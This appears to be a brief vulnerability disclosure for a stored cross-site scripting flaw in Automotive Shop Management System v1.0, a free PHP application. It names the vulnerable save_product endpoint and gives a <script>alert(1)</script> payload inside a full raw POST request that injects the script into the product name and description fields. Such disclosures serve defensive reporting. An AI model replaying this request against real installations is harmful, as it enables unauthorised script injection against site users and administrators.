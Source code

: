 # Automotive Shop Management System v1.0 - Cross-site Scripting (XSS)

vendors: https://www.sourcecodester.com/php/15312/automotive-shop-management-system-phpoop-free-source-code.html

Date: 2022-05-07

Vulnerability File: /asms/classes/Master.php?f=save_product

Vulnerability location: /asms/classes/Master.php?f=save_product, name

[+] Payload: <sCrIpT>alert(1)</sCrIpT>

Tested on Windows 10, XAMPP

```
POST /asms/classes/Master.php?f=save_product HTTP/1.1
Host: 192.168.2.106
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:97.0) Gecko/20100101 Firefox/97.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------83960212638164850273547100712
Content-Length: 835
Origin: http://192.168.2.106
Connection: keep-alive
Referer: http://192.168.2.106/asms/admin/?page=products
Cookie: PHPSESSID=0389fublnj7ggho8q04fuvfaqe

-----------------------------83960212638164850273547100712
Content-Disposition: form-data; name="id"

5
-----------------------------83960212638164850273547100712
Content-Disposition: form-data; name="name"

<ScRiPt>alert(1)</ScRiPt>
-----------------------------83960212638164850273547100712
Content-Disposition: form-data; name="description"

<ScRiPt>alert(1)</ScRiPt>
-----------------------------83960212638164850273547100712
Content-Disposition: form-data; name="price"

1100.00
-----------------------------83960212638164850273547100712
Content-Disposition: form-data; name="status"

1
-----------------------------83960212638164850273547100712
Content-Disposition: form-data; name="img"; filename=""
Content-Type: application/octet-stream


-----------------------------83960212638164850273547100712--

```

![](https://github.com/mikeccltt/badminton-center-management-system/blob/main/xss.gif?raw=true)